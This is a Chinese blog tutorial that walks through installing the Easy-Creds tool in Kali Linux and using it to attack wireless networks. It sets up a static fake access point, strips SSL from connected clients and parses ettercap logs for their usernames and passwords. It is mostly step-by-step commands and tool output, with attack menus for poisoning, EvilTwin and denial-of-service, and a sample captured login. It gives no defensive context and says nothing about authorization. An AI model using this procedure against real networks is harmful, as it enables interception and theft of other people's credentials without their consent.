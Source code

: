 ```yaml
---
layout: post
category: curleyg-code-hack
title: 使用Easy-Creds工具攻击无线网络
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 使用Easy-Creds工具攻击无线网络
lock: need
---
```


# 使用Easy-Creds工具攻击无线网络

Easy-Creds是一个菜单式的破解工具。该工具允许用户打开一个无线网卡，并能实现一个无线接入点攻击平台。Easy-Creds可以创建一个欺骗访问点，并作为一个中间人攻击类型运行，进而分析用户的数据流和账户信息。它可以从SSL加密数据中恢复账户。本节将介绍使用Easy-Creds工具攻击无线网络。

Easy-Creds是BackTrack5中的一部分。在Kali中，默认没有安装该工具。所以，需要先安装Easy-Creds工具才可使用。

**安装Easy-Creds工具。具体操作步骤如下所示。**

（1）从https://github.com/brav0hax/easy-creds网站下载Easy-Creds软件包，其软件包名为easy-creds-master.zip。

（2）解压下载的软件包。执行命令如下所示：

```
root@localhost:~# unzip easy-creds-master.zip
Archive: easy-creds-master.zip
bf9f00c08b1e26d8ff44ef27c7bcf59d3122ebcc
  creating: easy-creds-master/
 inflating: easy-creds-master/README
 inflating: easy-creds-master/definitions.sslstrip
 inflating: easy-creds-master/easy-creds.sh
 inflating: easy-creds-master/installer.sh
```

从输出的信息中，可以看到Easy-Creds软件包被解压到easy-creds-master文件中。从以上信息中，可以看到在easy-creds-master文件中有一个installer.sh文件，该文件就是用来安装Easy-Creds软件包的。

（3）安装Easy-Creds软件包。在安装Easy-Creds软件包之前，有一些依赖包需要安装。这些依赖包，可以参考easy-creds-master文件中的README文件安装相关的依赖包。然后，安装Easy-Creds包。执行命令如下所示：

```
root@kali:~# cd easy-creds/
root@kali:~/easy-creds# ./installer.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e|||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
        Installer
Please choose your OS to install easy-creds
1\. Debian/Ubuntu and derivatives
2\. Red Hat or Fedora
3\. Microsoft Windows
4\. Exit
Choice:
```

以上信息显示了，安装easy-creds的操作系统菜单。

（4）这里选择安装到Debian/Ubuntu，输入编号1，将显示如下所示的信息：

```
Choice: 1
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
          Installer
Please provide the path you'd like to place the easy-creds folder. [/opt] :   #选择安装位置，本例中使用默认设置
[*] Installing pre-reqs for Debian/Ubuntu…
[*] Running 'updatedb'
[-] cmake is not installed, will attempt to install…
  [+] cmake was successfully installed from the repository.
[+] I found gcc installed on your system
[+] I found g++ installed on your system
[+] I found subversion installed on your system
[+] I found wget installed on your system
[+] I found libssl-dev installed on your system
[+] I found libpcap0.8 installed on your system
[+] I found libpcap0.8-dev installed on your system
[+] I found libssl-dev installed on your system
[+] I found aircrack-ng installed on your system
[+] I found xterm installed on your system
[+] I found sslstrip installed on your system
[+] I found ettercap installed on your system
[+] I found hamster installed on your system
[-] ferret is not installed, will attempt to install…
[*] Downloading and installing ferret from SVN
……
[*] Installing the patched freeradius server…
……
make[4]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc/rfc'
make[3]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[2]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[1]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11'
[+] The patched freeradius server has been installed
[+] I found asleap installed on your system
[+] I found metasploit installed on your system
[*] Running 'updatedb' again because we installed some new stuff
…happy hunting!
```

以上信息显示了安装Easy-Creds包的详细过程。在该过程中，会检测easy-creds的依赖包是否都已安装。如果没有安装，此过程中会安装。Easy-Creds软件包安装完成后，将显示happy hunting！信息。

**使用Easy-Creds工具破解无线网络。具体操作步骤如下所示。**

（1）启动Easy-Creds工具。执行命令如下所示：

```
root@localhost:~/easy-creds-master#./easy-creds.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice:
```

以上输出的信息显示了Easy-Creds工具的攻击菜单。

（2）这里选择伪AP攻击，输入编号3。将显示如下所示的信息：

```
Choice: 3
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. FakeAP Attack Static
2\. FakeAP Attack EvilTwin
3\. Karmetasploit Attack
4\. FreeRadius Attack
5\. DoS AP Options
6\. Previous Menu
Choice:
```

以上输出信息显示了伪AP攻击可使用的方法。

（3）这里选择使用静态伪AP攻击，输入编号1。将显示如下所示的信息。

![img](https://img-blog.csdnimg.cn/20181107001209342.jpeg)

设置完以上的信息后，将会自动启动一些程序。几秒后，将会打开几个有效窗口。

![img](https://img-blog.csdnimg.cn/20181107001341328.jpeg)

（4）当有用户连接Wifi接入点时，Easy-Creds将自动给客户端分配一个IP地址，并且能够访问互联网。如果在互联网上访问一个安全网址时，该工具将除去SSL并删除安全连接并在后台运行。所以，能够读取到客户端登录某个网站的用户名和密码。捕获到一个登录http://www.live.com网站的用户名和密码。其用户名为[test@live.com](mailto:test@live.com)，密码为qwert。

（5）此时在Easy-Creds的主菜单中选择数据恢复，输入编号4，如下所示：

```
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice: 4
```

（6）选择数据恢复后，将显示如下所示的信息：

```
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Parse SSLStrip log for credentials
2\. Parse dsniff file for credentials
3\. Parse ettercap eci file for credentials
4\. Parse freeradius attack file for credentials
5\. Previous Menu
Choice: 3
```

以上信息显示了可用证书的方法。

（7）这里选择分析Ettercap eci文件，输入编号3，将显示如下所示的信息：

```
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
Ettercap logs in current log folder:
/root/easy-creds-master/easy-creds-2018-11-07-1722/ettercap2018-11-07-1724.eci
Enter the full path to your ettercap.eci log file:
```

从输出信息中，可以看到Ettercap日志文件的保存位置。

（8）此时输入ettercap.eci日志文件的全路径。这里只需要通过复制并粘贴提供的整个Ettercap路径就可以了。如下所示：

```
Enter the full path to your ettercap.eci log file: /root/easy-creds-master/easy-creds-2018-11-07-1722/ettercap2014-07-24-1724.eci
```

输入以下路径后，将显示如图所示的界面

![img](https://img-blog.csdnimg.cn/20181107001728273.jpeg)

（9）从该界面可以清楚的看到，截获的客户端用户信息及登录的网站。



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
